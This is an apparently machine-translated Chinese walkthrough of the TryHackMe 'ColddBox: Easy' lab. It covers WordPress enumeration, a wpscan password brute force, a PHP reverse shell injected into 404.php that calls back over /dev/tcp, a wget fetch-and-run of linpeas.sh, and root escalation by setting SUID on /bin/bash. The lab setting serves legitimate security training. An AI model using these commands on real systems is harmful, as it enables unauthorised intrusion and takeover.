 # try hackme:cold box:简单编写

> 原文：<https://infosecwriteups.com/tryhackme-colddbox-easy-write-up-2bb4d113b79d?source=collection_archive---------1----------------------->

![](img/e81a8134e0b5cd6fcf2761fbf6bcf27e.png)

简单级 CTF 挑战

我们启动[机](https://tryhackme.com/room/colddboxeasy)开始黑吧！！！。

连接到您的 OpenVPN 网络并部署机器。

## 任务 1 boot2Root

首先，让我们使用 [Rustscan](https://github.com/RustScan/RustScan) 扫描机器中的开放端口。

```
rustscan -a <machine-ip>
```

![](img/9a175a845c79db5d9ddf26e40a32504a.png)

rustscan 结果

我们可以看到只有两个端口是打开的，80(http)和 4512。让我们来探索一下。

![](img/64dac369890500df515d5754e579bffb.png)

这个页面属于 wordpress。使用 GoBuster 让我们找到隐藏的网页

```
gobuster dir -u http://<machine-ip> -w <wordlist>
```

![](img/1e2f920e7bb457b131b23fcc83d6d9ab.png)

我们发现了一些秘密。

![](img/df1a3b44f99904ea793d02cefee7a286.png)

使用 wpscan，让我们试着在 wordpress 页面中找到一些漏洞

```
wpscan --url http://<machine-ip>
```

![](img/fad7db49b896329c2815807ceb068502.png)

让我们用暴力迫使密码用户找到密码。

```
wpscan --url http://<machine-ip> -P <wordlist> -U c0ldd
```

![](img/4f31f6f35dfe3337b02ab127dd5533e6.png)

找到密码后，让我们登录帐户

![](img/8e344fc7757cb9a4f7fa757b479ee312.png)

账户里没有可疑的东西。所以通过 php 获得反向外壳。

去外观->编辑-> 404.php。粘贴 php 反向 shell 代码，更新代码。

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1'");?>
```

![](img/9ad9badf65348b2ee5985d4db769ba86.png)

同时在一个新的终端中打开一个 netcat 会话来获得 shell。

```
nc -lvp 4444
```

然后在浏览器中进入 404.php 页面。

```
http://<machine-ip>/?p=404.php
```

一旦页面加载，我们将在终端中得到相反的外壳

![](img/375e5b97edec4cfaa8668924a3241b6b.png)

目前用户是 www-data

在/home/c0ldd 文件夹中，我们可以找到 user.txt 文件。但由于我们不是 c0ldd，我们不能查看旗帜。

![](img/a9be5768a8f4d7938d078df76e5a2b5f.png)

让我们运行 linpeas.sh 来提升我们的特权。在主机上运行服务器。我正在使用 apache2 并创建一个服务器。

```
sudo service apache2 start
```

在受害者机器上下载 linpeas.sh 文件。

```
wget http://<your-ip-address>/linpeas.sh
```

更改 linpeas 的权限并运行它

```
chmod +x linpeas.sh
./linpeas.sh
```

![](img/fc0d823f855ccdab80437d7ae47f74e0.png)

我们得到了 Db_password，这样我们就可以打开 ssh 端口 4512

```
ssh c0ldd@<machin-ip> -p 4512
```

![](img/742d4fe48b41ca3f4a11bc66b744c3e6.png)

最后我们是 c0ldd 用户，所以我们可以打开 user.txt

![](img/8f3ad4209570d2c577031b7e7278cbb1.png)

现在我们必须想办法获取 root.txt

```
sudo -l 
```

![](img/c15ffe0e47243958fddc5c92dd809fcf.png)

作为根用户，我们可以执行以上三个命令

让我们通过 chmod 更改 bash 的权限

```
sudo chmod +s /bin/bash
```

以下带有-p 参数的 bash 命令将为您提供一个以 euid 和 egid 为根的 bash shell。

```
/bin/bash -p
```

最后，使用 cat 命令，我们可以查看根标志。

![](img/90a1ee4d8e7fe0db6bc0c054a4413a01.png)

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)和我联系。